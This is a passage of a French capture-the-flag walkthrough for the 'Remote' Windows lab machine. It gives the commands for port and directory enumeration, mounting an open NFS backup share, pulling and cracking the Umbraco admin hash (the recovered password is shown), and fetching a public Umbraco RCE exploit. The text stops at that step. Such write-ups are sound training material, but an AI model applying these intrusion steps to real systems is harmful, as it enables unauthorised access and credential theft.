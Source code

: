 ![Pic1](../img/remote1.PNG?raw=true) </br>

# Introduction
Remote est une machine Windows dont l'adresse IP est 10.10.10.180.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
</br>

# Enumération initiale
Nous commençons l'énumération par les ports et services de la machine distante avec nmap :
```bash
$ nmap -T4 -A 10.10.10.180
```
![Pic2](../img/remote2.PNG?raw=true) </br>
![Pic3](../img/remote3.PNG?raw=true) </br>
Beaucoup de ports sont ouverts, nous pouvons reconnaitre les ports habituels d'un serveur Windows :
*21 pour un serveur ftp, dont l'utilisateur Anonymous est autorisé.
*80 pour un serveur web.
*111 pour du rpc.
*135 pour du msrpc, il permet des appels de procédures RPC.
*139 pour du netbios-ssn, il permet la découverte et la connexion des voisins dans le réseau.
*445 pour un service SMB.
*2049 pour un démon de montage (rpc.mount).
</br>

Nous allons faire une énumération des fichiers/dossiers du site web avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,html,aspx" -f -t 100 -x 400,403,404,501 -u http://10.10.10.180
```
![Pic4](../img/remote4.PNG?raw=true) </br>
Plein de dossier, l'énumération n'est pas exhaustive, umbraco est intéréssant car c'est un cms.

# Obtenir un accès utilisateur
Pour l'instant, nous avons rien à faire avec Umbraco, nous allons voir les répertoires partagés disponibles :
```bash
$ showmount -e 10.10.10.180
```
![Pic5](../img/remote5.PNG?raw=true) </br>
Nous allons monter ce répertoire chez nous et l'explorer :
```bash
$ sudo mount.nfs 10.10.10.180:site_backups /mnt/site_backups/ -w
```
Le dossier site_backup étant une sauvegarde du site, en cherchant sur internet, nous trouvons que Umbraco garde les hash des mot de passes dans un fichier Umbraco.sdf :
```bash
$ strings App_Data\Umbraco.sdf | grep -A 2 -B 2 'dmin'
```
![Pic6](../img/remote6.PNG?raw=true) </br>
Maintenant que nous avons le hash de l'utilisateur admin, nous pouvons le cracker avec john :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/remote7.PNG?raw=true) </br>
Donc nous avons l'utilisateur admin:baconandcheese, nous allons voir s'il y a un exploit avec searchsploit pour Umbraco pour avoir une RCE authentifiée :
```bash
$ searchsploit umbraco
```
![Pic8](../img/remote8.PNG?raw=true) </br>
Nous récupérons l'exploit et l'exécutons :
```bash
$ locate 46153.py
$ cp /usr/share/exploitdb/exploits/aspx/webapps/46153.py ./


